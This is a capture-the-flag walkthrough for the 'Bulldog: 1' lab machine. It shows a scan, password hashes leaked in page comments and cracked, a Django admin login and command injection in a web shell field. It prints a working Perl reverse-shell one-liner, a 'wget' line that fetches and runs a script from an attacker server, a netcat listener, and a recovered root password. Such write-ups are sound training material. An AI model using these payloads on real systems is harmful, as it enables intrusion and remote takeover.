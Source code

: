Bulldog: 1 write-up


scan host:

nikto http://192.168.56.101:8080/


![alt text](https://github.com/s1l3xz/some/nikto.jpg)

	
	find /dev dir


Visit http://192.168.56.101:8080/dev/
	
	find comments in web page source

	![alt text](https://github.com/s1l3xz/some/comments.png)

	<!--Need these password hashes for testing. Django's default is too complex-->
	<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
	Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
	Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
	Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
	Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
	Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
	Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
	Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->


Try to brute forse over : https://crackstation.net/

	Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5--> bulldog  ( sha1 )

	Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e--> bulldoglover ( sha1 )



Login to django admin page http://192.168.56.101:8080/admin with one of credentials


Than go to  http://192.168.56.101:8080/dev/shell/

Find CLI vulnerability in command field:

![alt text](https://github.com/s1l3xz/some/CLI.png)

store perl reverse shell on my remote apache server:

use Socket;$i="192.168.56.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};

use CLI to downlod perl rev shell on bulldog machine:

ls & wget http://attacker_server/perl_script.pl -O /tmp/lol.pl


open nc on attacker side : nc -lvp 1234

execute perl script over CLI :ls & perl /tmp/lol2.pl & id


Get rev shell under jango

![alt text](https://github.com/s1l3xz/some/rev_shell.png)

find customPermissionApp elf file in /home/bulldogadmin/.hiddenadmindirectory directory

reverse elf , find root password : SUPERultimatePASSWORDyouCANTget

execute: sudo su root

got root ;

find secret in /root/congrats.txt

![alt text](https://github.com/s1l3xz/some/proof.jpg)